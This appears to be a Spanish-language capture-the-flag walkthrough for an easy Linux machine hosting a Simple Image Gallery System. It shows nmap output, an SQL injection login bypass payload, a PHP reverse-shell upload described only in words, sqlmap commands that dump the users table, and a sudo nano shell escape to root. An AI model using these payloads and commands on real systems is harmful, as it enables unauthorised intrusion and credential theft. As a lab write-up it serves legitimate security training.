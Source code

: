 #Linux #Easy 
### nmap
```python
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simple Image Gallery System
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.42 seconds
```

### Ports: 80/htto - 8080/http

### Enumeracion del puerto 80
![[Pasted image 20240112205004.png]]

### Fuzzing con gobuster
![[Pasted image 20240112205902.png]]
vamos a analizar el subdominio /gallery

### login
![[Pasted image 20240112210033.png]]
###### vamos a intentar varias credenciales por defecto y tambien inyecciones sqli
payload inyeccion sqli
```python
admin'OR 1=1-- -
```

### tenemos acceso a la pag web
![[Pasted image 20240112210533.png]]
###### en el apartado de albums podemos ver una opcion para cargar archivos lo que podriamos utilizar para intentar cargar un archivo php que contenga una reverse shell
![[Pasted image 20240112212006.png]]
la rever shell ha funcionado tenemos conexion a la maquina

### movimiento lateral. 
![[Pasted image 20240112212241.png]]
###### navegando por la maquina hemos conseguido un archivo backups del usuario mike en el cual tenemos permisos de lectura sobre el archivo .bash_history y dentro podemos ver que el usuario mike en algun momento proporciono su clave de super usuario asi que vamos a capturarla para convertirnos en el usuario mike

### analizando la maquina podemos ver que tenemos una base de datos
![[Pasted image 20240112220052.png]]
usaremos sqlmap para enumerar esta base de datos

### sqlmap 

```python
sqlmap -r phpid.txt --dbs
```
necesitamos interceptar alguna peticion con el burpsuite para poder conseguir la phpsessionid

![[Pasted image 20240112222715.png]]
ya tenemos el nombre de la base de datos. ahora vamos a enumerarla

```python
sqlmap -r phpid.txt -D gallery_db --tables
```
hemos enumerado las tablas de la base de datos. la tabla de users parece interesanta asi que vamos a echar un vistazo 
![[Pasted image 20240112223302.png]]

ahora vamos a enumerar la tabla de usuarios 

```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users
```

![[Pasted image 20240112223801.png]]

ahora vamos a enumerar las columnas de password y username
```python
sqlmap -r phpid.txt -D gallery_db -T users --columns users -C username,password --dump
```

![[Pasted image 20240112224808.png]]
tenemos credenciales del usuario admin

### Escalada de privilegios
![[Pasted image 20240112230108.png]]
el usuario mike tiene permisos root para el script rootkit.sh usaremos esto para escalar privilegios

### script: el archivo tiene 4 variables. pero lo mas importante es que nos permite usar nano como root. usaremos esto para escalar privilegios
![[Pasted image 20240112230528.png]]

usaremos la opcion numero 4 (read) esto nos permite editar el archivo 
![[Pasted image 20240112231008.png]]

usaremos este comando con nano para lograr la escalada 
```python
nano
- Ctrl^R 
- reset; sh 1>&0 2>&0
- Ctrl^X
```

![[Pasted image 20240112231326.png]]
### WE ARE ROOT
